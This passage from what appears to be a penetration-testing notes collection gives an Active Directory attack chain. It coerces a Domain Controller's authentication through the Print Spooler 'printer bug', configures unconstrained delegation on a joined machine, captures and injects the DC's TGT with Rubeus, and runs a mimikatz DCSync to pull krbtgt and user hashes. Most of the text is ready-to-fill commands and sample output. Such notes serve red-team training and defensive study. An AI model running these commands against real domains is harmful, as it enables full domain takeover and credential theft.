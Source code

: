 ```
SpoolSample.exe <TARGET_IP | TARGET_HOSTNAME> <LHOST_HOSTNAME>

printerbug.py [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<TARGET_IP | TARGET_HOSTNAME> <LHOST_HOSTNAME>
```

For more information, refer to the `[L7] MSRPC - MS-RPRN "printer bug"` note.

*Optional - configuration of unconstrained delegation on a controlled machine*

The Domain Controllers are trusted for `Kerberos` `unconstrained delegation`.

However, if a Domain Controller (exposing the `Print Spooler` service) of the
targeted forest is accessible from the attacking machine, a computer can be
joined to the domain and configured to be trusted for `unconstrained
delegation`. Doing so will allow to jump the trust with out deploying third
party tools on a Domain Controller.

```
Add-Computer -DomainName <DOMAIN> -Server <DOMAIN>\<DC_HOSTNAME> -Credential <<DOMAIN>\<USERNAME> | <PSCredential>> -Restart -Force

Get-ADComputer -Identity <CONTROLLED_MACHINE_HOSTNAME> | Set-ADAccountControl -TrustedForDelegation $True
```

*TGT extraction and usage*

The `TGT` of the Domain Controller machine account received after triggering
the `Print Spooler` service authentication can be extracted using `Rubeus`'s
`monitor` module:

```
# The TGTs will be extracted every 60 seconds by default.
Rubeus.exe monitor /nowrap /interval:<2 | INTERVAL_IN_SECONDS>
```

The base64 encoded ticket can be injected in the current session using, among
others, `Rubeus`'s `ptt` module:

```
Rubeus.exe ptt /ticket:<TICKET_BASE64 | TICKET_BASE64_FILE_PATH | TICKET_KIRBI_FILE_PATH>

# Confirms that the TGT is injected in the current session.
klist

  #X>     Client: <DC_MACHINE_ACCOUNT>$ @ <DOMAIN_FQDN>
          Server: krbtgt/<DOMAIN_FQDN> @ <DOMAIN_FQDN>
```

Replication operations, attack known as `DCSync`, can then be conducted,
using `mimikatz` for example, through the session in which the Domain
Controller machine account's `TGT` was injected. The specified Active
Directory objects' sensible information (`NTLM` hash and `Kerberos` secrets)
can be remotely retrieved.

```
mimikatz # lsadump::dcsync /domain:<DOMAIN_FQDN> /dc:<DC_FQDN> /user:<krbtgt | USERNAME>
```

For more information on how to make use of the obtained `TGT` and conduct the
`DCSync` attack, notably from a Linux attacking machine, refer to the
`[ActiveDirectory] Kerberos tickets usage` and `[ActiveDirectory] ntds.dit
dumping` notes.
